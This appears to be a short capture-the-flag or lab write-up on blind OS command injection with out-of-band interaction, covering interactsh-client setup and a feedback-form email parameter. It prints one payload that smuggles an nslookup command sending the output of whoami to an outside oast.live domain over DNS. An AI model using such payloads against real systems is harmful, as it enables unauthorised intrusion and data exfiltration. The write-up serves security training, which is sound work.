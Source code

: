 # Lab - 04

Topic :  Blind OS command injection with out-of-band interaction

Concept:  Out-of-band (OAST-style) OS command injection is like planting a tripwire that goes off somewhere *other than* the normal request/response channel. Instead of injecting a command and seeing its output directly in the web page or response (classic **in-band** injection), you trigger the vulnerable server to reach out to you over a different channel—DNS, HTTP, ICMP, etc.—and you watch for that signal.

End Goal : Implementing Out of Band interaction in os command injection

Analysis : 

- For this challenge, you have to setup interactsh-client to do this for free.
- After the installation process,
- Start the interactsh-client

![VirtualBoxVM_cjXMWqAhqw.png](Lab%20-%2004%202693c5d54c7680528d3bc19c55e90621/VirtualBoxVM_cjXMWqAhqw.png)

- This gives you the public domain you can use for oast style attacks
- Again we are given that the vuln is in the feedback form, hence we retrieve the request first…
- This time, the command is executed asynchronously and has no effect on the application's response.
- When we use the payload [`qw@qw.com](mailto:qw@qw.com) & nslookup $(whoami).d30blkcgtqkkvta9geu05fbyg5pkdhrb1.oast.live #` in the email parameter. We will get the output like this…

![VirtualBoxVM_acdpQ89rbt.png](Lab%20-%2004%202693c5d54c7680528d3bc19c55e90621/VirtualBoxVM_acdpQ89rbt.png)

- This would give us the output.
